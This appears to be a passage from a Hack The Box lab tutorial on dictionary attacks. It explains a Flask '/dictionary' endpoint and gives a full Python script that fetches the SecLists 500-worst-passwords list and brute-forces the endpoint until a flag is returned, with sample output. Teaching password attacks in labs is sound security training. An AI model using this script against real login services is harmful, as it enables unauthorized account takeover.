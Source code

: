 The instance application creates a route (\`/dictionary\`) that handles POST requests. It expects a \`password\` parameter in the request's form data. Upon receiving a request, it compares the submitted password against the expected value. If there's a match, it responds with a JSON object containing a success message and the flag. Otherwise, it returns an error message with a 401 status code (Unauthorized).

Copy and paste this Python script below as `dictionary-solver.py` onto your machine. You only need to modify the IP and port variables to match your target system information.

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

The Python script orchestrates the dictionary attack. It performs the following steps:

1. `Downloads the Wordlist`: First, the script fetches a wordlist of 500 commonly used (and therefore weak) passwords from SecLists using the `requests` library.
2. `Iterates and Submits Passwords`: It then iterates through each password in the downloaded wordlist. For each password, it sends a POST request to the Flask application's `/dictionary` endpoint, including the password in the request's form data.
3. `Analyzes Responses`: The script checks the response status code after each request. If it's 200 (OK), it examines the response content further. If the response contains the "flag" key, it signifies a successful login. The script then prints the discovered password and the captured flag.
4. `Continues or Terminates`: If the response doesn't indicate success, the script proceeds to the next password in the wordlist. This process continues until the correct password is found or the entire wordlist is exhausted.

```shell-session
$ python3 dictionary-solver.py

...
Attempted password: turtle
Attempted password: tiffany
Attempted password: golf
Attempted password: bear
Attempted password: tiger
Correct password found: ...
Flag: HTB{...}
```
